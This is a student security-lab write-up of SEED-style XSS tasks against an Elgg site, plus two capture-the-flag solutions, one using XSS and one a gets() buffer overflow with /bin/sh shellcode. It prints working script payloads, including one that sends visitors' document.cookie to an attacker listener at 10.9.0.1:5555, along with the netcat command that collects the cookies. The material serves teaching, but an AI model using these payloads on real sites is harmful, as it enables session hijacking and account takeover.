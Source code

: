 # TRABALHO REALIZADO NA SEMANA #10

## 3: Lab Tasks

### Task 1: Posting a Malicious Message to Display an Alert Window

>The objective of this task was to embed a javasript program which will execute when the page is loaded and will display an alter window with 'XSS'.
>
>To do this we will be using Alice as the attacker.
>
>First we will go to Alice's profile page and view the page source. Where we will find her GUID which is 56 (we just make a ctrl+f).
>
>>![week10_0](https://cdn.discordapp.com/attachments/903555414715670578/930966808696070224/unknown.png)
>
>We will use this info in order for the alert to not appear when it is Alice viewing her own profile.
>
>From that we can edit alice's profile, and conveniently for us we can edit the 'About me" section using html.\
>To inject the javascrip code we can use the html '&#60;script&#62;' with our code:
>
>>&#60;script&#62;\
>>&#8195;windows onload = function(){\
>>&#8195;&#8195;if (elgg.session.user.guit!= 56) {\
>>&#8195;&#8195;&#8195;alert('XSS');\
>>&#8195;&#8195;&#8195;}\
>>&#8195;&#8195;}\
>>&#60;/script&#62;
>
>We will add this code to her account:
>
>![week10_1](https://cdn.discordapp.com/attachments/903555414715670578/930949016714367076/unknown.png)
>
>If we then log into another account, lets say, for example, Samy. When we try to view Alice's profile page we get:
>
>![week10_2](https://cdn.discordapp.com/attachments/903555414715670578/930949137761992714/unknown.png)
>
>The attack was successful.

### Task 2: Posting a Malicious Message to Display Cookies

>Basically the task 2 was the same as the first one but with the appearance of the user's cookie.
>
>To do this we need to change the "About me" on the Alice's edit profile, on the "edit HTML" and write de comand in JS:
>
>>&#60;script&#62;\
>>&#8195;windows onload = function() {\
>>&#8195;&#8195;if (elgg.session.user.guit!= 56) {\
>>&#8195;&#8195;&#8195;alert(document.cookie);\
>>&#8195;&#8195;}\
>>&#8195;}\
>>&#60;/script&#62;
>
>>![week10_3](https://cdn.discordapp.com/attachments/903555414715670578/930949307614502982/unknown.png)
>
>If we then log into another account, lets say, for example, Samy. When we try to view Alice's profile page we get:
>
>>![week10_4](https://cdn.discordapp.com/attachments/903555414715670578/930949424635584513/unknown.png)
>
>The attack was successful.

### Task 3: Stealing Cookies from the Victim's Machine

>On this task the goal is to steal the cookies from someone who visits, in our case, Alice's page.
>
>We edited Alice's profile page 'About me' section to instead of having 'Alert(document.cookie)' have:
>
>>document.write('&#60;img src=http://10.9.0.1:5555?c='
&#43; escape(document.cookie) + ' &#62;');
>
>The '10.9.0.1' is the IP address of the machine while '5555' correspondes to the port location where script will send an HTTP GET to the machine.
>
>The code will be:
>
>>&#60;script&#62;\
>>&#8195;windows onload = function() {\
>>&#8195;&#8195;if (elgg.session.user.guit!= 56) {\
>>&#8195;&#8195;&#8195;document.write('&#60;img src=http://10.9.0.1:5555?c='
&#43; escape(document.cookie) + ' &#62;');\
>>&#8195;&#8195;}\
>>&#8195;}\
>>&#60;/script&#62;
>
>>![week10_5](https://cdn.discordapp.com/attachments/903555414715670578/930956473574490112/unknown.png)
>
>The next step was to open terminal and to use the command 'nc -lknv 5555' which will allow us to see what we are able to steal. (This server program basically prints out whatever is sent by the client and sends to the client whatever is typed by the user running the server.)
>
>When we log in with Samy's account and try to visit Alice's profile we will be redirected to a blank page (trying to load the supposed "image" from our code). But what actually happens is that out terminal will have logged his info: 
>
>
>![week10_7](https://media.discordapp.net/attachments/903555414715670578/930956662804713492/unknown.png?width=1376&height=702)
>
>This task was also successful and Alice now has Samy's session cookie.

### Task 4: Becoming the Victim’s Friend

>On this task we simulated a request HTML with JS.
>
>The objective was to simulate an "add friend" request without doing a click on the button.
>
>So we basically need to write JS in the "About Me" section of the Samy:
>
>>![week_8](https://cdn.discordapp.com/attachments/903555414715670578/930962003831439390/unknown.png)
>
>And on the section "sendurl = ...;" we putted the URL of that request.
>
>We adquire that by logging in as Alice, access to Network tab with inspect the page and add Samy as a friend. We've got an GET of that and copied the URL of that.
>
>Now if we enter the Samy's profile, us being Alice, without pressing the "Add Friend" button, this was already pressed.
>
>>![week10_9](https://cdn.discordapp.com/attachments/903555414715670578/930963121818959872/unknown.png)
>>
>>![week10_10](https://cdn.discordapp.com/attachments/903555414715670578/930963266757341254/unknown.png)
>
>The attack was successful.

# CTF

### Challenge 1

>On the first challenge we had a web server at ctf-fsi.fe.up.pt:5002, where we could send requests to the admin asking for the flag.
>
>Since we were able to embed a javasript, we tried using that.\
>By using the following script we were able to get the flag for the first challenge:
>
>>![week10_ctf1](https://media.discordapp.net/attachments/903555414715670578/931541225020985375/unknown.png?width=1246&height=701)
>
>The flag took a while to appear but what this code does is get the html with the id "giveflag" and click on it.\
>The explanation is that the element when click had a funtion that give us the flag.
>
>Here is the flag:
>
>>![week10_ctf2](https://media.discordapp.net/attachments/903555414715670578/931541175427563560/unknown.png?width=1246&height=701)

### Challenge 2

>After looking at the main.c provided we found out that the vulnerability was at gets(buffer), since it allows us to write outside of the supposed place allocated for the variable that is being altered (which means this is a buffer overflow attack).
>
>We used an exploit file in python and with the help of pwn (the same tool we used on a past lab), with this we were able to get the address of of the buffer (which is vulnerable).
>
>We then used gdb to analyse the code and got that the offset we needed to alter the return address was 108 bytes.
>
>we also put shellcode that calls /bin/sh, and x90 (which means to advance).
>
>Here is the exploit we used:
>
>>![week10_ctf3](https://media.discordapp.net/attachments/903555414715670578/934209139025010798/unknown.png?width=1440&height=684)
>
>After running it we get this, which shows the flag:
>
>>![week10_ctf4](https://media.discordapp.net/attachments/903555414715670578/934208749428686848/unknown.png)
